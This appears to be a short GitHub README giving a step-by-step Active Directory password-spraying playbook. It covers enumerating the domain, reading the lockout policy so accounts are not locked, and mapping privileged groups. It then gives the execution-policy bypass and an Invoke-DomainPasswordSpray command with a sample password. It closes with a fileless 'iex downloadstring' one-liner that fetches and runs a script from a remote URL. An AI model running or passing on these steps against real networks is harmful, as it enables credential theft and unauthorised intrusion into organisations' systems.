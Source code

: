 # AD
Queries and code related to Active Directory

Process: 
1. Use the "ADCounts.ps1" script to size up the directory.
2. Use a command like "Net accounts /domain" to see the current password policy (Don't want to lock thouse accounts, eh?)
3. Use GetADPrivGroups.ps1 to get membership in the main AD Elevated groups - see who is who.
4. Could go and get Blood Hound / SharpHound, maybe collect some juicy details... 
5. Assess the current situation before the sparay - try getlockoutinfo.ps1.
6. Then attempt the PW spray with pwspray.ps1

6.A. Need to open up a PowerShell prompt w/ bypass: from command prompt, "PowerShell -exec bypass" should get you there.
6.B. Need to import the script - Type 'Import-Module pwspray.ps1', which is a more paranoid version of dafthack's pw spray script.
6.C. Run the script - Invoke-DomainPasswordSpray -Password Summer2020 -OutFile results.txt
6.D. Observe - Search-ADAccount –LockedOut. Problems? Use control C and punt. Wait a bunch before you try again. 

7. Kick it up a notch maybe? Go fileless?
powershell -nop -c "iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/OnlyTheShadowKnows/AD/master/ADcounts.ps1')"



